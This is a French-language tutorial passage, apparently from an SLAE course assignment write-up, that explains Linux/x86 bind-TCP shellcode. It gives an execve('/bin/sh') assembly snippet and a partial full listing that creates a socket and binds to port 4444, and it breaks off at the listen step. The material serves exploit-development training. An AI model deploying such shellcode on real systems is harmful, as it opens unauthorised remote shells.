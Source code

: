 ## Exécution du shell ##

nous allons pour cela utiliser execve, int execve(const char *filename, char *const argv[], char *const envp[]) afin de lancer un shell.
Il sera de la forme execve("/bin/sh", NULL, NULL).
Puis enfin, le shell(/bin/sh) est exécuté une fois la connexion établie.

```c
	xor ecx,ecx		; ecx = 0
	mul ecx			; eax = edx =ecx = 0
	push eax		; push 0 onto the stack
	push 0x68732f2f		; push //bin/sh
	push 0x6e69622f
	mov ebx, esp		; save esp into ebx
	mov al, 0xb		
	int 0x80		; make the syscall execve("/bin/sh", NULL, NULL)	
```


## Code complet ##

```c
; SLAE - Assignment #1: Shell Bind TCP Shellcode (Linux/x86)
; Author: Alain Menelet 
; StudentID - SLAE-3763
; Tested on Ubuntu 16.14.03 LTS
; https://github.com/xophidia/Shellcode/blob/master/compile.sh


global _start

section .text

_start:

	; Create a socket

	xor ebx, ebx 		; ebx = 0
	mul ebx			; eax=ebx=edx = 0
	push ebx		; push 0 onto the stack
	inc ebx			; ebx = 1
	push ebx		; push 1 onto the stack
	push byte 0x2		; push 2 onto the stack
	mov ecx, esp		; set ecx to the address of our args
	mov al, 0x66		; syscall socketcall
	int 0x80		; make the syscall socketcall(socket(2,1,0))

	; Bind to a port

	xchg eax, edx		; save sockfd into edx
	pop ebx			; set ebx = 2 (bind)
	pop esi			; pop 1
	push word 0x5c11	; push 4444 port onto the stack
	push word bx		; push 2 onto the stack
	mov ecx, esp		; set ecx the address of our args
	push 0x10		; push 16
	push ecx		; push address of our args
	push edx		; push sockfd
	mov ecx, esp		; ecx = end of the stack
	mov al, 0x66
	int 0x80		; make the syscall  socketcall(bind(sockfd, [2,4444,0], 16))

	; Listen a connection

```